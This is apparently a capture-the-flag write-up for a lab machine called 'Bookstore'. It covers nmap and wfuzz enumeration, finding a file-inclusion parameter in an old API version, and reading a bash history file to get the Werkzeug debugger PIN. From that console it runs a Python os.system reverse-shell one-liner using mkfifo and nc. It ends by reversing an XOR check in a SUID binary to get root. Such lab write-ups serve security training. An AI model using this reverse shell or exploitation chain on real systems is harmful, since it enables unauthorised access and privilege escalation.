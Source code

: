 ## Bookstore

# Enumeration
```
# Nmap 7.91 scan initiated Thu May 20 14:15:40 2021 as: nmap -sCV -oN nmap/initial -vvv -p 22,80,5000 10.10.160.176
Nmap scan report for 10.10.160.176
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-05-20 14:15:41 PDT for 12s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCs5RybjdxaxapwkXwbzqZqONeX4X8rYtfTsy7wey7ZeRNsl36qQWhTrurBWWnYPO7wn2nEQ7Iz0+tmvSI3hms3eIEufCC/2FEftezKhtP1s4/qjp8UmRdaewMW2zYg+UDmn9QYmRfbBH80CLQvBwlsibEi3aLvhi/YrNCzL5yxMFQNWHIEMIry/FK1aSbMj7DEXTRnk5R3CYg3/OX1k3ssy7GlXAcvt5QyfmQQKfwpOG7UM9M8mXDCMiTGlvgx6dJkbG0XI81ho2yMlcDEZ/AsXaDPAKbH+RW5FsC5R1ft9PhRnaIkUoPwCLKl8Tp6YFSPcANVFYwTxtdUReU3QaF9
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCbhAKUo1OeBOX5j9stuJkgBBmhTJ+zWZIRZyNDaSCxG6U817W85c9TV1oWw/A0TosCyr73Mn73BiyGAxis6lNQ=
|   256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAr3xDLg8D5BpJSRh8OgBRPhvxNSPERedYUTJkjDs/jc
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 834559878C5590337027E6EB7D966AEE
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    syn-ack ttl 61 Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-methods:
|_  Supported Methods: HEAD OPTIONS GET
| http-robots.txt: 1 disallowed entry
|_/api </p>
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 20 14:15:53 2021 -- 1 IP address (1 host up) scanned in 13.27 seconds
```

SSH, http server, and after looking up Werkzeug a python web application library with a disallowed robots.txt entry for api so maybe we will find something to abuse here if we have access. Firstly though lets see if we get some background info from the http server so we do some manual exploration and some enumeration to find the following on the http server
```
/images               (Status: 301) [Size: 315] [--> http://10.10.160.176/images/]
/index.html           (Status: 200) [Size: 6452]
/login.html           (Status: 200) [Size: 5325]
/books.html           (Status: 200) [Size: 2940]
/assets               (Status: 301) [Size: 315] [--> http://10.10.160.176/assets/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.160.176/javascript/]
/LICENSE.txt          (Status: 200) [Size: 17130]
```

In the html comments for books.html we can find base32 string which is just there to lead us on. However, in the html comments for the /login.html we find the following note of interest
```
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
```

After looking it up we can verify that the werkzeug debugger console is in fact located at /console on port 5000 and a pin is needed, however now we know that we need to access sid's .bash_history file in order to find that pin. Before we finally head over to /api we do a check of /assets for any api related files and find a api.js file with the following comment
```
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.

```

So looks like a previous version had a vulnerable LFI parameter we'll keep this along with everything else we have learned in mind as we checkout /api on port 5000.

# API Endpoint
```
API Documentation
Since every good API has a documentation we have one as well!
The various routes this API currently provides are:

/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```

So we are using v2 according to the documentation but we know the previous version was vulnerable lets see if it's still accessible by checking /api/v1/resources/books/all. We get a json output so it seems like the previous version of the api is still accessible. We go ahead and try the above parameters for LFI but are unsuccessful so lets go ahead and fuzz to see if there are any hidden parameters as follows
```
# wfuzz -u http://10.10.160.176:5000/api/v1/resources/books?FUZZ=.bash_history -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.160.176:5000/api/v1/resources/books?FUZZ=.bash_history
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000395:   200        7 L      11 W       116 Ch      "REDACTED"
000000486:   200        1 L      1 W        3 Ch        "author"
000000529:   200        1 L      1 W        3 Ch        "id"
```

We pretty quickly find the parameter and we don't even have to do any directory traversal to get a result on the .bash_history file we are trying to find so we go check the response we got and in fact find the debug pin so lets go access that /console. Sure enough the pin works and we have a console to execute ptyhong commands so lets use python to send us a shell as follows
```
>>> import os
>>> os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f')
```

Sure enough we get a reverse shell on our listener and have an initial foothold.

# Initial Foothold
```
sid@bookstore:~$ ls -la
total 80
drwxr-xr-x 5 sid  sid   4096 Oct 20  2020 .
drwxr-xr-x 3 root root  4096 Oct 20  2020 ..
-r--r--r-- 1 sid  sid   4635 Oct 20  2020 api.py
-r-xr-xr-x 1 sid  sid    160 Oct 14  2020 api-up.sh
-r--r----- 1 sid  sid    116 May 21 04:08 .bash_history
-rw-r--r-- 1 sid  sid    220 Oct 20  2020 .bash_logout
-rw-r--r-- 1 sid  sid   3771 Oct 20  2020 .bashrc
-rw-rw-r-- 1 sid  sid  16384 Oct 19  2020 books.db
drwx------ 2 sid  sid   4096 Oct 20  2020 .cache
drwx------ 3 sid  sid   4096 Oct 20  2020 .gnupg
drwxrwxr-x 3 sid  sid   4096 Oct 20  2020 .local
-rw-r--r-- 1 sid  sid    807 Oct 20  2020 .profile
-rwsrwsr-x 1 root sid   8488 Oct 20  2020 try-harder
-r--r----- 1 sid  sid     33 Oct 15  2020 user.txt
```

We find the user.txt flag as well as a binary try-harder owned by root with an SUID bit set so looks like have a possible method of privilege escalation. Running the binary asks us for a magic number so lets go ahead and send the binary to our local machine to analyze in ghidra. We find the following main function
```
void main(void)

{
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Looking at this tell us that our input is stored in local_1c and then xor'd with 0x1116 and then local_18 which we can see from above has a value 0x5db3. Then it is stored in local_14 and compared with 0x5dcd21f4 to spawn a shell with privileges. So with the root SUID bit set this means it should just spawn us a root shell and all we need to to do is reverse the xor operations and figure out our magic number. We convert our result to decimal and input it when we run the binary on the system and sure enough we are spawned a root shell and can find the root flag at /root/root.txt.